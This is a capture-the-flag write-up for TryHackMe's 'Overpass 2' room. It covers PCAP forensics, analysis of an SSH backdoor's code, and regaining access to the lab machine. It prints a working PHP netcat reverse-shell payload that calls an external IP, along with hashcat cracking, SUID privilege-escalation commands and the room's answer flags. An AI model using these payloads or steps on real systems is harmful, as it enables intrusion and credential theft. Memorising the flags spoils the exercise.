


# **THM - Overpass 2 [EN]**

Author: `adi7312`


## **Forensic - analyse the PCAP**

### 1. What was the URL of the page they used to upload a reverse shell?

Reverse shell was provided to host using *Remote File Inclusion* vulnerability, so we need to look for HTTP POST request. It is relatively easy to find.


Answer: `/development/`


### **2. What payload did the attacker use to gain access?**


We are still inspecting the previous POST request, now we need to determine what payload was used. It is relatively easy too to do, we need to find in hex dump, php code which is responsible for reverse shell.


Right click on it and copy it as clear text and paste it into some file.


No we can provide the answer.

Answer: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`


### **3. What password did the attacker use to privesc?**

To answer to this question, we need to know that netcat listener's communication is based on TCP protocol, which is unencrypted, that means we can find the password, which was used in privilege escalation, as a plain text. 

So we are looking for password in TCP stream, before the adversary entered password, he had to  used some commands for example: whoami, sudo, sudo \<command\>. After 5 minutes of inspecting packets we finally found something interesting.


Adversary tried to list sudo commands using `sudo -l`, to get result he had to provide the password, that moment we can see below: 


And the password itself you can find below:


Let's copy the context of that dump to some file.


Answer: `whenevernoteartinstant`


### **4. How did the attacker establish persistence?**


After succesful privilege escalation, the adversary put an effort to establish persistance in system using backdoor. We can see that the threat actor downloaded some backdoor called "ssh-backdoor" via GitHub. In the pcap file we can see usage of TLS (*Transport Layer Security*) protocol, which means that the adversary used ssh to connect to machine. 


So we can make assumption that the attacker established persistance thanks to ready backdoor on GitHub.

Answer: `https://github.com/NinjaJc01/ssh-backdoor`

### **5. Using the fasttrack wordlist, how many of the system passwords were crackable?**


In previous packets, we encountered the /etc/shadow file which contains hashes of passwords. We can copy that to file *shadow.txt* and use John The Ripper to crack it. 


Answer: `4`


## **Research - Analyse the code**

In this steep, we will need to analyse code of ssh-backdoor.

### **1. What's the default hash for the backdoor?**

Variable *Hash* constains the answer to that question.


Answer: `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

### **2. What's the hardcoded salt for the backdoor?**

We can see that function *verifyPass* has salt as an argument.


At the bottom of code we can see passwordHandler function, which returns *verifyPass* function with determinated salt.





Answer: `1c362db832f3f864c8c2fe05f2002a05`


### **3. What was the hash that the attacker used? - go back to the PCAP for this!**

From the *ssh-backdoor* we can read that option *-a* is responsible for parsing hash into .go program.

So in the PCAP we are looking for something like: *ssh-backdoor -a hash*


Answer: `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`


### **4. Crack the hash using rockyou and a cracking tool of your choice. What's the password?**

Cracking it directly with John maybe unsuccesful because of salting. Analysing the code we know that above hash is procuded with following function:

```go
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
}
```

We will use *hashcat* utility to crack this hash (we are using mode 1710 because it corresponds to sha512(\$pass,$salt)).

Before using *hashcat* we need to save hash and salt to one file, hash and salt are separated by colon.


Now we are running the command below:

    hashcat --force -m 1710 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 


Answer: `november16`

## **Attack - Get back in!**

### **1. The attacker defaced the website. What message did they leave as a heading?**

Navigate to site and the title will be the answer.


Answer: `H4ck3d by CooctusClan`


### **2. Using the information you've found previously, hack your way back in!**

From the code of ssh-backdoor we know that backdoor is triggered at 2222 port. So we can connect to server via ssh.

```
ssh james@10.10.213.94 -p 2222
```
Unfortunalety, my Kali Linux for some reason didn't want to connect to that machine, so I changed machine for THM AttackBox.

### **3. What's the user flag?**


Answer: `thm{d119b4fa8c497ddb0525f7ad200e6567}`

### **4. What's the root flag?**

First of all we can list all binaries that have SUID bit:

```
find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000 2>/dev/null
```

The most catchy utility is in /home/james directory:


Executing it with `-p` flag give us a root.





`Answer: thm{d53b2684f169360bb9606c333873144d}`


